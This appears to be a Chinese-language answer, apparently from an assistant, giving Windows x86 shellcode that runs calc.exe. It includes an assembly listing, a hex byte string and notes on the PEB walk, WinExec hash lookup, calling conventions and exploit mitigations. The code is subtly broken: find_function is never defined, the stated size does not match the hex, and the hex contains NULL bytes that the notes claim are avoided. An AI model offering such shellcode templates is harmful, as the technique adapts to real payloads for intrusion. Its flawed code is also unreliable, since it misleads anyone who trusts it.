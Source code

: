 这里是一个 Windows x86 (32位) 执行 calc.exe 的 shellcode，并附详细解析：

```nasm
; Windows x86 shellcode - 执行 calc.exe
; 大小: 68 bytes

global _start
section .text
_start:
    ; 清零寄存器
    xor ecx, ecx            ; ECX = 0
    mul ecx                 ; EAX, EDX = 0
    
    ; 构建栈空间
    push ecx                ; 字符串结束符NULL
    push 0x6578652e        ; 压入"exe."
    push 0x636c6163        ; 压入"calc"
    mov ebx, esp           ; EBX指向"calc.exe"字符串
    
    ; 获取kernel32.dll基址
    mov edx, [fs:0x30]     ; 获取PEB
    mov edx, [edx + 0x0C]  ; 获取PEB->Ldr
    mov edx, [edx + 0x14]  ; 获取第一个模块
    mov edx, [edx]         ; 获取第二个模块
    mov edx, [edx]         ; 获取第三个模块
    mov edx, [edx + 0x10]  ; 获取kernel32.dll基址
    
    ; 准备WinExec参数
    push 5                  ; uCmdShow = SW_SHOW (5)
    push ebx               ; lpCmdLine = "calc.exe"
    
    ; 查找WinExec地址
    mov eax, 0xEC0E4E8E    ; WinExec函数散列
    mov ebx, edx           ; 内核基址作为参数
    call find_function     ; 查找函数地址
    
    ; 调用WinExec
    call eax              ; WinExec("calc.exe", 5)
    
    ; 退出
    ret
```

十六进制形式：
```
\x31\xc9\xf7\xe1\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x64\x8b\x15\x30\x00\x00\x00\x8b\x52\x0c\x8b\x52\x14\x8b\x02\x8b\x02\x8b\x52\x10\x6a\x05\x53\xb8\x8e\x4e\x0e\xec\x89\xd3\xe8\x0b\x00\x00\x00\xff\xd0\xc3
```

主要区别和解析：

1. 寄存器使用的区别：
- 使用32位寄存器(eax, ebx等)
- 不再使用r8-r11等64位专用寄存器

2. 堆栈操作：
- 32位下压栈为4字节操作
- 字符串构建方式略有不同

3. PEB访问：
- 使用fs段寄存器访问PEB(32位)
- 偏移值和结构体布局不同

4. 系统调用方式：
- 使用stdcall调用约定
- 参数通过栈传递

5. 关键结构：
```
PEB访问:
fs:[0x30]              ; PEB位置(32位)
[edx + 0x0C]          ; PEB_LDR_DATA
[edx + 0x14]          ; InMemoryOrderModuleList

参数传递:
push 5                ; 第二个参数(uCmdShow)
push ebx              ; 第一个参数(lpCmdLine)
```

6. 内存布局考虑：
- 32位地址空间(4GB)
- 堆栈对齐要求不同
- 指针大小为4字节

注意事项：
1. 代码更紧凑，因为32位指令一般较短
2. 需注意栈平衡
3. 同样避免使用NULL字节
4. 考虑DEP/ASLR等保护机制

这个32位shellcode相比64位版本：
- 代码更简单直观
- 使用更传统的Windows调用约定
- 内存寻址更简单
- 整体尺寸更小

实际应用时需要注意：
1. 目标系统的兼容性
2. 可能的漏洞缓解措施
3. 字符限制要求
4. 执行环境的特殊性